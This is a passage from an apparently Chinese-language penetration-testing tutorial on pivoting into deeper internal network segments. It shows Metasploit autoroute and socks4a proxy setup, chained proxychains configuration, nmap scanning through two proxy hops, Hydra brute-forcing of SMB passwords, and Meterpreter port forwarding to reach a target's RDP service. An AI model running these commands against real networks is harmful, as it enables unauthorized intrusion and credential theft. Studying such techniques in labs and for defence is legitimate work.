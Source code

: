 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS06XBNOUmfeP8UKb6noRSibbDgZt27rQ4tfmLJDCccfh5Ej4ml9G5diaeg/640?wx_fmt=png)

**纵向渗透**  

如果拿下 75 网段 shell 且发现目标有也存在双网卡，假如存在 76 网段，此时可以继续添加静态路由，进一步纵向渗透。此时：

```
#配置路由
run autoroute -s 192.168.76.0/24
#验证能否连接
run post/windows/gather/arp_scanner RHOSTS=192.168.76.0/2
```

```
#设置代理
use auxiliary/server/socks4a 
set srvhost 127.0.0.1
set srvport 1081  #注意避免端口冲突
run
```

```
# 配置代理，要在1080端口下面再配置一个socket代理子啊1081端口上
vi /etc/proxychains.conf
socks4  127.0.0.1 1080
socks4  127.0.0.1 1081
```

```
#nmap扫描，这里建立了两层链路。从127.0.0.1:1080>127.0.0.1:1081>192.168.76.*
proxychains nmap -sT -sV -Pn -n -p 1-3389 192.168.76.1/24
```

建立 socks 会话后，利用 proxychains 工具驱动其他软件可以对网段扫描、爆破、嗅探、漏洞探测及利用。进行横向渗透。也可以直接用 msf 里面的模块直接渗透（msf 不需要 proxychains 驱动）

**Hydra 爆破  
**

```
proxychains hydra -l admin -P pass.txt -f 192.168.75.131 smb
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0WSZrlX1xdvPckBJHsnHKlJfjAuhVib2m1qGy4TfpeBCVLp5qKe8dnRw/640?wx_fmt=png)  

爆破成功后，将远程目标机的端口转发到本地攻击  
①. 端口转发

```
portfwd add -L 192.168.1.5 -l 33890 -r 192.168.75.131 -p 3389
```

②. 远程连接

```
rdesktop 192.168.1.5:33890
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0OAx9MHib0BCgouZicNgFbJWZxnAmQia71XQxM1tL6npIUl0YyQrK1pStA/640?wx_fmt=png)
